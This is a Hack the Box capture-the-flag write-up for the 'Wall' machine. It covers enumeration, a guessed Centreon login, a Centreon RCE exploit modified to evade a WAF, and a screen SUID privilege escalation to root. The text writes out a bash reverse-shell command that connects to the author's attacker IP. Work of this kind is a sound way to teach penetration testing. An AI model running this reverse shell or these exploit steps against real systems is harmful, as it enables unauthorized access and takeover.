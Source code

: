 +++
author = "Nick"
categories = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
date = 2019-12-07T13:15:15Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/11/wall.png"
slug = "hack-the-box-wall"
summary = "Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as an easy box, let's jump in!"
tags = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
title = "Hack the Box - Wall"

+++


Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as a medium box, let's jump in!

As normal we start our enumeration process with ```nmap```. 

```nmap -sC -sV -oA initial_scan 10.10.10.157```

our results are pretty standard:

```
Nmap scan report for 10.10.10.157
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Let's head over to see what's being hosted. 

We see a standard ```apache2``` install. So we're going to want to enumerate this site a bit. We'll add it to our hostfile as wall.htb and send it into ```gobuster```.

We run:
```gobuster dir -u http://wall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40```

We only get back two standard results

![](/images/2019/11/image-16.png)

Since I didn't specify the ```-x``` parameter on the initial scan, we need to run it again for file extensions. We see there are a few with the .php extension.

![](/images/2019/11/image-17.png)

There are some interesting files and folders after enumeration. There doesn't seem to be much we can do with the two new ```php``` files. When we open ```Burpsuit``` and start to poke the site with ```GET``` and ```POST``` requests, we see that if we send a ```POST``` request to ```/monitoring/``` we are redirected to ```/centreon```.

![](/images/2019/11/image-18.png)

We go to the address and are greated with a login form. We see the version running is 19.04. A quick ```searchsploit``` on Centreon shows us that there is an RCE for this particular version.

![](/images/2019/11/image-19.png)

We can copy this exploit to our current working directory with the ```-m``` command of ```searchsploit```.

```searchsploit centreon -m 47069```.

When we run the exploit we see our options:

![](/images/2019/11/image-20.png)

In this case we'll need to obtain user credentials to run the exploit. Now you can brute force this login with a few options, ```hydra```, ```wfuzz``` or just write your own. In my case guessing the password without doing any of those worked out, turns out password1 isn't exactly hard to guess. Now that we have some credentials, we can use this exploit. 

So we give our exploit our credentials and our IP and port. Start a new NC listener and fire it off... Nothing. Hmmm, so We will modify the exploit to show us what might be going on. We modify the last bit of lines to show as this:

![](/images/2019/11/image-25.png)

Now that we will get back some data on what might be going on, we run it again and see what's not working. We get back some XML data but it seems that it's working. There could be a WAF in place blocking the standard malicious payloads. So we'll again modify our script to simply take the payload we give it.

To do this we will change the amount of arguments our script takes. We will remove the line 30 & 31 for  ```ip``` and ```port```. We will then create an argument called ```payload```. We also need to modify the expected length on line 22. We should have something like this:

![](/images/2019/11/image-26.png" caption=")

We then need to modify our ```payload_info```. Line 69 is where the payload the default exploit would use. However, we can simply replace this payload with the variable ```payload```. This way we can modify our payload on the go to evade whatever might be blocking the standard payload.

![](/images/2019/11/image-27.png)

Our first goal will be to test it. We will execute our newly modified script to test that it works. We will start up a ```SimpleHTTPServer``` and host a file. We will then issue ```wget``` and see if the file is retrieved. In this case I made a quick file called shell.sh which has the standard bash remote connection:

```bash -i >& /dev/tcp/10.10.15.154/4444 0>&1```

We fire off our new exploit and we see it connect back to us and download the file.

![](/images/2019/11/image-28.png)

Below we see that the exploit has indeed worked.

![](/images/2019/11/image-21.png)

Next we have to move our file to the ```/tmp``` directory just to be sure it can run.  Then change the permissions of our script so it can execute.

![](/images/2019/11/image-22.png)

We then fire up our listener and tell the script to execute. The first few times I tried this, I was unable to get a shell on random ports. So we just use the good ol' port 53 trick.

![](/images/2019/11/image-24.png)

We get a shell back as ```www-data```! Now that we are on the machine, we can start enumerating. We download ```linenum``` and see what it comes back with. One item that is noticeable is ```screen-4.5.0``` in our SUID section.

![](/images/2019/11/image-29.png)

A quick ```searchsploit``` for screen comes back with two possible Local Privilege Escalations.

![](/images/2019/11/image-30.png)

We will download the exploit, host it on our server and get it from the target machine.

![](/images/2019/11/image-31.png)

The exploit will error, however if we check the directory, we see our shell file ```rootshell```.  After that we run it and we have root shell:

![](/images/2019/11/image-33.png)

We then grab the user flag. The box is done!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

